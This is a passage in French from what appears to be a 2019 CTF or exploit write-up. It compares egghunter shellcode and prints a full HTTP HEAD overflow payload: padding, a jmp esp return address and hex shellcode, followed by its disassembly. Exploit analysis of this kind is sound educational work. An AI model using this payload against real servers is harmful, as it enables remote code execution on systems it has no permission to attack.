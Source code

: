 Il s'agit du egghunter *NtDisplayString* que l'on trouve [dans le tutoriel de Corelan](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/) (la fin c'est du padding et l'adresse du gadget).  

Il y avait aussi cette variante :  

```plain
HEAD /coffeeAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA311350626681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7
```

Ici le shellcode est placé après l'adresse de retour (0x62501331 qui correspond à un *jmp esp*) :  

```asm
   0:   66 81 ca ff 0f          or     dx,0xfff
   5:   42                      inc    edx
   6:   52                      push   edx
   7:   6a 02                   push   0x2
   9:   58                      pop    eax
   a:   cd 2e                   int    0x2e
   c:   3c 05                   cmp    al,0x5
   e:   5a                      pop    edx
   f:   74 ef                   je     0x0
  11:   b8 77 30 30 74          mov    eax,0x74303077
  16:   8b fa                   mov    edi,edx
  18:   af                      scas   eax,DWORD PTR es:[edi]
  19:   75 ea                   jne    0x5
  1b:   af                      scas   eax,DWORD PTR es:[edi]
  1c:   75 e7                   jne    0x5
  1e:   ff e7                   jmp    edi
```

Il prend plus de place et met plus de temps à s'exécuter que le mien donc pas de regret :p

*Published May 04 2019 at 17:04*